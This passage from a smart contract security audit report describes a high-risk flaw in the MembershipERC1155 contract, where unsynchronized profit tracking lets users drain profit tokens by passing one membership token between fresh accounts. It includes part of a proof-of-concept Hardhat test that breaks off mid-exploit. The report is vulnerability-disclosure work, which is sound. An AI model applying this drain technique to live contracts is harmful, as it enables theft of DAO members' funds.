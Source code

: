 **Lead Auditors**

[Immeas](https://twitter.com/0ximmeas)

[Gio](https://twitter.com/giovannidisiena)

**Assisting Auditors**



---

# Findings
## High Risk


### `MembershipERC1155` profit tokens can be drained due to missing `lastProfit` synchronization when minting and claiming profit

**Description:** When [`MembershipERC1155:claimProfit`](https://github.com/OneWpOrg/audit-2024-10-oneworld/blob/416630e46ea6f0e9bd9bdd0aea6a48119d0b515a/contracts/dao/tokens/MembershipERC1155.sol#L138-L147) is called by a DAO member, the [`lastProfit`](https://github.com/OneWpOrg/audit-2024-10-oneworld/blob/416630e46ea6f0e9bd9bdd0aea6a48119d0b515a/contracts/dao/tokens/MembershipERC1155.sol#L184) mapping is updated to keep track of their claimed rewards; however, this state is not synchronized when minting/burning membership tokens or when transferring membership tokens to a new account.

Hence, when minting or transferring, a new user will be considered eligible for a share of previous profit from before they were a DAO member. Aside from the obvious case where a new DAO member claims profits at the expense of other existing members, this can be weaponized by recycling the same membership token between fresh accounts and claiming until the profit token balance of the `MembershipERC1155Contract` has been drained.

**Impact:** DAO members can claim profits to which they should not be entitled and malicious users can drain the `MembershipERC1155` contract of all profit tokens (including those from membership fees if paid in the same currency).

**Proof of Concept:** The following tests can be added to `describe("Profit Sharing")` in `MembershipERC1155.test.ts`:
```javascript
it("lets users steal steal account balance by transferring tokens and claiming profit", async function () {
    await membershipERC1155.connect(deployer).mint(user.address, 1, 100);
    await membershipERC1155.connect(deployer).mint(anotherUser.address, 1, 100);
    await testERC20.mint(nonAdmin.address, ethers.utils.parseEther("20"));
    await testERC20.connect(nonAdmin).approve(membershipERC1155.address, ethers.utils.parseEther("20"));
    await membershipERC1155.connect(nonAdmin).sendProfit(testERC20.address, ethers.utils.parseEther("2"));
    const userProfit = await membershipERC1155.profitOf(user.address, testERC20.address);
    expect(userProfit).to.be.equal(ethers.utils.parseEther("1"));

    const beforeBalance = await testERC20.balanceOf(user.address);
    const initialContractBalance = await testERC20.balanceOf(membershipERC1155.address);

    // user claims profit
    await membershipERC1155.connect(user).claimProfit(testERC20.address);

    const afterBalance = await testERC20.balanceOf(user.address);
    const contractBalance = await testERC20.balanceOf(membershipERC1155.address);

    // users balance increased
    expect(afterBalance.sub(beforeBalance)).to.equal(userProfit);
    expect(contractBalance).to.equal(initialContractBalance.sub(userProfit));

    // user creates a second account and transfers their tokens to it
```